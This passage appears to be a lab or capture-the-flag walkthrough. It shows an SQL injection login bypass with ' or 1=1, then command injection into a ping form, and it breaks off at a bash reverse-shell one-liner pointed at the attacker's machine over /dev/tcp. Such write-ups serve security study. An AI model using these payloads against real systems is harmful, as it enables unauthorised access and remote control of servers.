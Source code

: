 <p>Usually my first tries are something along the lines of:</p>

<ul>
	<li>any&#39; or 1=1;#</li>
</ul>

<p>This only sometimes works, but it all depends on how the SQL statement is crafted on the backend. Since the first example was the one that let me in, I can only guess that the SQL statement looked something like:</p>

<ul>
	<li>SELECT * FROM users WHERE username=&#39; &#39; AND password=&#39; &#39;</li>
</ul>

<p>So after my injection, it probably looked like this:</p>

<ul>
	<li>SELECT * FROM users WHERE username=&#39;admin&#39; AND password=&#39;1&#39; or &#39;1&#39;=1&#39;</li>
</ul>

<p>Since adding the "or 1=1" will cause the statement to always evaluate to "true", it bypasses the password check.</p>

<p>Aftering logging in I find something that quickly gave me ideas about remote code injection:</p>

<p><img alt="" src="https://i.imgur.com/8vsDOjy.png" /></p>

<p>This plainly states that we&#39;re executing a command on the backend, and it&#39;s asking us for an IP address as a parameter. So, to test it out, I ping my attacking machine.</p>

<p><img alt="" src="https://i.imgur.com/oao32Oz.png" /></p>

<p>Looks just like the output from a linux bash prompt, so we&#39;re definitely running a command and getting back the exact output from the command. There is a way to chain commands in linux, such as:</p>

<ul>
	<li>&&</li>
	<li>||</li>
	<li>;</li>
</ul>

<p>Since the first two usually depend on the success or failure of the first command, I just go with ; because it&#39;s simply tacking on a second command to the first. So I test that out:</p>

<p><img alt="" src="https://i.imgur.com/sah3ZQQ.png" /></p>

<p>At the bottom of the ping printout, we can see that the command "pwd" or "print working directory" executed and told us that we&#39;re in "/var/www/html". At this point it is confirmed that it&#39;s possible to inject linux commands into this server.</p>

<p>Immediately I attempt a reverse shell command:</p>

<ul>
	<li>bash -i >$ /dev/tcp/10.0.0.128/443 0>&1</li>
</ul>
